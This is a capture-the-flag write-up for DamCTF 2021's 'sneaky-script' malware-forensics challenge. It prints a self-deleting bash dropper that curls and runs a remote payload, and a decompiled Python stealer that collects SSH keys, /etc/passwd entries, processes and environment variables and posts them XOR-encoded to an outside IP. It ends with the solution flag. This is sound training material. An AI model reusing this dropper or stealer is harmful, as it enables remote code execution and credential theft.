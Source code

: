 ```yaml
---
# Obsidian
tags:
- ctf
- 2021-damctf
- malware
- forensics
- pcap
- wireshark
- python
- bash
- xor
- base64


# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2021-damctf
category: malware
title: sneaky-script
points: 333
solved: true
---
```


# sneaky-script

## Instructions

We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.

[files.zip](#)

## Solution

In the included files.zip we have a shell script and a pcap file. The shell script is as follows:

```shell
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg

python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

In wireshark we can filter for the `54.80.43.46` ip address and grab the base64 string in the response to the curl request. Decoding it gives us a byte-compiled python string.

```shell
$ file curl-response 
curl-response: python 3.6 byte-compiled
```

We can decomplie this bytecode back to Python using the python package `uncompyle6`.

```python
# uncompyle6 version 3.8.0
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.9.7 (default, Sep 24 2021, 09:43:00) 
# [GCC 10.3.0]
# Embedded file name: /tmp/tmpaliidej5
# Compiled at: 2021-09-25 17:59:31
# Size of source mod 2**32: 2900 bytes
import array, base64, fcntl, http.client, json, re, socket, struct, os, uuid

def get_net_info():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    g = array.array('B', b'\x00' * 4096)
    y = struct.unpack('iL', fcntl.ioctl(s.fileno(), 35090, struct.pack('iL', 4096, g.buffer_info()[0])))[0]
    n = g.tobytes()
    a = []
    for i in range(0, y, 40):
        c = n[i:i + 16].split(b'\x00', 1)[0]
        c = c.decode()
        m = n[i + 20:i + 24]
        v = f"{m[0]}.{m[1]}.{m[2]}.{m[3]}"
        a.append((c, v))
    return a


def get_users():
    with open('/etc/passwd', 'r') as (f):
        x = [x.strip() for x in f.readlines()]
    g = []
    for z in x:
        a = z.split(':')
        if int(a[2]) < 1000 or int(a[2]) > 65000:
            if a[0] != 'root':
                continue
        g.append((a[2], a[0], a[5], a[6]))
    return g


def get_proc():
    n = []
    a = os.listdir('/proc')
    for b in a:
        try:
            int(b)
            x = os.readlink(f"/proc/{b}/exe")
            with open(f"/proc/{b}/cmdline", 'rb') as (f):
                s = (b' ').join(f.read().split(b'\x00')).decode()
            n.append((b, x, s))
        except:
            continue
    return n


def get_ssh(u):
    s = []
    try:
        x = os.listdir(u + '/.ssh')
        for y in x:
            try:
                with open(f"{u}/.ssh/{y}", 'r') as (f):
                    s.append((y, f.read()))
            except:
                continue
    except:
        pass
    return s


def build_output(net, user, proc, ssh):
    out = {}
    out['net'] = net
    out['proc'] = proc
    out['env'] = dict(os.environ)
    out['user'] = []
    for i in range(len(user)):
        out['user'].append({'info':user[i],  'ssh':ssh[i]})
    return out


def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()


def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))
    data = build_output(net, user, proc, ssh)
    send(data)


try:
    a()
except:
    pass
# okay decompiling curl-response.pyc
```

The `send()` function appears to be exfiltrating xor'ed and base64 encoded data back to a remote host via HTTP. We can grab the exfiltrated data by looking for the POST request from the `34.207.187.90` host in the pcap and decoding the data.

```python
import base64

def main():
    with open("exfil.bin", "r") as f:
        encoded = f.read()
        k = b'8675309'
        data = base64.b64decode(encoded)
        print(bytes([data[i] ^ k[(i % len(k))] for i in range(len(data))]))

if __name__ == "__main__":
    main()
```

Search for the flag format in the resulting data gets us the flag in the environment variables:

```
"FLAG": "dam{oh_n0_a1l_muh_k3y5_are_g0n3}",
```

## Continued On


